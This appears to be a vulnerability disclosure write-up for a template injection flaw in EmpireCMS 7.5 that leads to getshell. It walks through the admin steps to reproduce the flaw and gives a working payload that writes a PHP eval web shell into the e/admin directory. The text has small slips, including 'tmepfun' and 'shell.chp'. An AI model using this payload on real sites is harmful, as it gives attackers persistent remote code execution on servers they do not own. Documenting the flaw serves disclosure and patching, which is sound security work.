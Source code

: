 # EmpireCMS-Getshell

### Introduction to EmpireCMS 

EmpireCMS is an open-source content management system (CMS).

download link：http://www.phome.net/downcenter/empirecms/ecms75/download/EmpireCMS_7.5_SC_UTF8.zip

### Vulnerability description

EmpireCMS v7.5 has a template injection vulnerability. An authenticated remote attacker can exploit this vulnerability to inject malicious content through the PreviewIndexpage class in e/class/tempfun.php, thereby getting the shell.

### vulnerability analysis

The vulnerability exists in line 425 of tmepfun. Due to the lack of effective validation of the parameter content passed in by the frontend, malicious content can be referenced and generate an index page template file, resulting in malicious content being written

[![image-20240730103644857](EmpireCMS-Getshell.assets/](https://github.com/SecBridge/Cms_Vuls/blob/main/EmpireCMS/image/image/image-20240730103644857.png)

### Vulnerability reproduction

1、Log in to the backend  -> check "模板" -> "管理首页方案" -> Modify template content:

```
Vulnerability verification POC ：<?php phpinf0(); ?>
```

![image-20240730104109557](EmpireCMS-Getshell.assets/image-20240730104109557.png)

2、After submitting, click "预览"：

![image-20240730104436737](EmpireCMS-Getshell.assets/image-20240730104436737.png)

The injected malicious content is referenced and executed：

![image-20240730104534523](EmpireCMS-Getshell.assets/image-20240730104534523.png)

3、The server generates indexpage temporary file，The path is：/e/data/tmp/indexpage{tempid}.php

![image-20240730104922561](EmpireCMS-Getshell.assets/image-20240730104922561.png)

4、POC and change to：

```
test <?php fputs(fopen('shell.php','w'),'<?php eval($_POST[9527])?>');?>
```

Automatically generate shell.chp in e/admin

![image-20240730110245130](EmpireCMS-Getshell.assets/image-20240730110245130.png)



![image-20240730110005192](EmpireCMS-Getshell.assets/image-20240730110005192.png)
